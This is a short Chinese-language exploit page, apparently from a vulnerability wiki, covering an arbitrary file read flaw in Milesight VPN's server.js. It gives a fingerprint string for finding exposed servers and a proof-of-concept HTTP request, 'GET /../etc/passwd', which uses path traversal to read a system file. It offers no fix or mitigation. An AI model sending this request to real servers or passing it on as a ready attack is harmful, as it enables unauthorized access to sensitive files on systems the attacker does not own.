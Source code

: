 # Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

<a-checkbox checked>Milesight VPN</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MilesightVPN"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1690730120459-2c1711c9-5ccc-4cbc-a31e-b150b491eece-20230811182007783.png)

验证POC

```http
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](/assets/PeiQi-Wiki/img/1690730307132-26f4e9a2-dc98-4313-b836-e923f29be8f7.png)